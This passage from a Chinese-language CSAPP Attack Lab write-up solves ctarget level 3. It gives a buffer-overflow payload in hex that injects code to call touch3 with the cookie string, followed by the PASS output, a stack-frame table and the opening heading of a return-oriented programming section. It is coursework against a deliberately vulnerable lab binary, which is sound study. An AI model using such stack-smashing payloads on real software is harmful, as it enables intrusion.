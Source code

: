 1. 代码溢出准备返回到`0x5561dc78`，
2. 将`cookie =0x59b997fa`写成字符串的形式应该是`35 39 62 39 39 37 66 61`放置到`test`的栈帧中`0x5561dca8`位置处。

```shell
48 c7 c7 a8 dc 61 55 68 
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
# 以上填补 40字节的缓冲区
78 dc 61 55 00 00 00 00 <- getbuf 的返回地址 
35 39 62 39 39 37 66 61 
```

运行结果PASS

```shell
dargon@dd:~/桌面/CSAPP/lab3_attack/target1$ ./ctarget -q < ans3_raw.txt 
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 
```

分析此时的栈帧，这里需要换一个位置存储 `cookie`试一下如何

| 地址                                             | 内容                    |
| ------------------------------------------------ | ----------------------- |
| 0x5561dca8 （存储cookie的地方）                  | 61 66 37 39 39 62 39 35 |
| 0x5561dca0  （getbuf的返回地址）以上是test的栈帧 | 00 00 00 00 55 61 dc 78 |
| rsp+20 （以下分别对应 getbuf的缓冲区）           | 00 00 00 00 00 00 00 00 |
| rsp+18                                           | 00 00 00 00 00 00 00 00 |
| rsp+10                                           | 00 00 00 00 00 00 00 00 |
| rsp+08                                           | 00 00 00 00 00 00 00 00 |
| rsp                                              | 00 00 00 00 00 00 00 00 |

运行前的栈帧分配图

![](E:\Codefield\Code_C\CSAPP\Linux命令手册\Graph\03_03l3stack.png)

# Part2: Returned-Oriented Programming

## 2.1 phase_4
